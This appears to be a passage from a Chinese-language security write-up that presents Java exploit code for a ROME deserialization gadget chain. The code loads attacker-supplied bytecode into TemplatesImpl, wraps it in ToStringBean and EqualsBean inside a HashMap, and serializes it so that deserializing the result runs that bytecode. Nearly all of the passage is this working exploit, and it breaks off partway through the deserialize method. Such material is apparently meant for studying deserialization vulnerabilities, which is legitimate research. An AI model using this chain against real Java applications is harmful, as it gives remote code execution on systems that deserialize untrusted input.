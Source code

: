 ## EXP(EqualsBean)：

```plain
package EXPROME;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

public class RomeToStringBean {
    public static void setValue(Object obj,String name,Object value)throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{

        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXPROME/Demo.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        setValue(templates,"_name","Ic4F1ame");
        setValue(templates, "_tfactory", new TransformerFactoryImpl());
        setValue(templates,"_bytecodes",codes);

//防止序列化触发
        ToStringBean toStringBean = new ToStringBean(Templates.class,new ConstantTransformer(1));
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(equalsBean,"123");

//再改回正常的参数
        Field field = toStringBean.getClass().getDeclaredField("_obj");
        field.setAccessible(true);
        field.set(toStringBean,templates);
        serialize(hashMap);
        unserialize("ser.bin");
    }




    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
```